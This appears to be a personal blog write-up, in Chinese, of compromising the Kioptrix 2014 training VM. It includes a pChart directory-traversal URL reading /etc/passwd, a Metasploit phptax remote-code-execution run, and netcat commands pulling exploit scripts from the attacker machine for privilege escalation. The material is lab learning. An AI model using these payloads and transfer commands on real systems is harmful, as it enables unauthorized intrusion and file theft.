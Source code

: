 ```yaml
---
title: Kioptrix 2014
categories:
- training
tags:
- training
---
```

# Kioptrix 2014

2:07 开始
http://192.168.67.129/

```
22/tcp   closed   ssh
80/tcp   filtered http
8080/tcp open     http-proxy
```
## web
2:28 web目录扫描，爬行

查看源码，发现一个地址pChart2.1.3/index.php

```
searchsploit pchart
searchsploit -m exploits/php/webapps/31173.txt
leafpad 311tab补全命令
```
exp提示有目录遍历漏洞和反射型xss

http://192.168.67.129/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd

查看apache配置文件
```
http://192.168.67.129/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/10.PNG)
经过检查得知，修改user-agent头，可以访问8080端口。

http://192.168.67.129:8080/phptax/

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/11.PNG)

找到phptax 远程代码执行，拥有exp
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/12.PNG)

```
msfconsole
search phptax
use 0
set RHOSTS 192.168.67.129
set RPORT 8080
run
```
获得一个www权限的shell

## privelege

ctrl + z 退出session，记住session编号。

```
search local_exploit
use 0 
show options
set sessions 1
run
[*] 192.168.67.129 - Collecting local exploits for cmd/unix...
[*] 192.168.67.129 - 7 exploit checks are being tried...
[*] Post module execution completed
失败
```
没有python、php、wget、curl，但是有nc，gcc

---

上传检查脚本

kali: `nc -lnvp 80 < linux-exploit-suggester.sh `
shell: nc kali'sIP 80 > linux.sh
运行后还是失败，猜测只有bash才能运行linux-exploit-suggester.sh，而得到的shell类型为sh

---

searchsploit freebsd 9
上传对应的内核漏洞exp

![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/13.PNG)

4:50结束，其中神游发呆做菜聊天占了绝大部分时间ORZ

## conclusion
```
-n			numeric-only IP addresses, no DNS
-v  			verbose
-w secs			timeout for connects and final net reads
 
nc -nv 192.168.1.67 443 -w 5 > exploit.c
```
如果不加-w参数，nc会一直连接，哪怕是传输文件成功了，也不会断开。
所以必须加该参数，否则不稳定的shell运行ctrl+c，shell就会没有了。
